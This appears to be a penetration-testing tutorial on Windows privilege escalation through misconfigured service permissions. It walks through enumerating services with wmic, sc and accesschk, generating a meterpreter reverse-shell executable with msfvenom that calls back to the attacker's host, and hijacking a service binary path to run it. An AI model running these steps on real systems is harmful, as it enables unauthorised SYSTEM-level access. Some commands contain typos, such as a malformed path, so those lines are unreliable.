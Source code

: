 Services are ***executable applications running in a system's background***, often automatically starting during boot. They can be controlled (started, stopped, paused, or restarted) depending on access permissions. Services do not have a user interface and typically run under the `LocalSystem` (SYSTEM) account, and this creates a security risks if misconfigurations occur.

Windows has two different commands to gather this information: `wmic` and `sc`.

### Identifying Services
**List all the services**
```
wmic service list brief
```

**Filter the output to show only the relevant services**
```
wmic service where (state="running") get name, caption, startmode, startname
```

**Display the name of the Service with the Caption**
```
wmic service where "caption='Web Account Manager'" get name, caption
```

### Vulnerable Service Permissions
If a low-privileged user has permission to modify the configuration of a service run by an administrator-level account, you can likely hijack the service.
#### Service Permissions
**`AccessChk`** (part of the Windows Sysinternals suite) is a command-line tool that ***checks the permissions of Windows objects – including services***.

**Search for any services that the Restricted1 user account can modify**
```
accesschk.exe -uwcqv "restricted1" *
```
The permissions you should be looking for:
- **SERVICE_ALL_ACCESS** 
- **SERVICE_CHANGE_CONFIG**

#### Finding the Binary Path
To inspect a potentially misconfigured service, use the `sc qc` command in cmd. This will show details like the ***service's start account*** (`SERVICE_START_NAME`), ***how it starts*** (`START_TYPE`), and the ***path to its executable path*** (`BINARY_PATH_NAME`). The executable is crucial, as it can be modified to point to a malicious binary.

**Run the Service Configuration Command**
```
sc qc NAME_OF_SERVICE
```

### Exploiting Vulnerable Services
**Preparation**
To hijack the service executable, you first ***need a malicious executable to plant in the binary path of the service***. You need to ***generate a payload*** on your attacking machine, ***transfer it*** to the target system, and start a Metasploit listener.

**Generate a Payload**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$kaliIPAddress LPORT=4444 -f exe -o reverse.exe
```

**Launch a Listener**
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IP
run
```

**Exploitation**
Modify the binary path and restart the service.
```
sc stop SERVICE_NAME
sc config SERVICE_NAME binpath="C\Temp\reverse.exe"
sc start SERVICE_START
```


Note: Migrate to `LogonUI.exe` process before your session is terminated.
```
migrate -N LogonUI.exe
```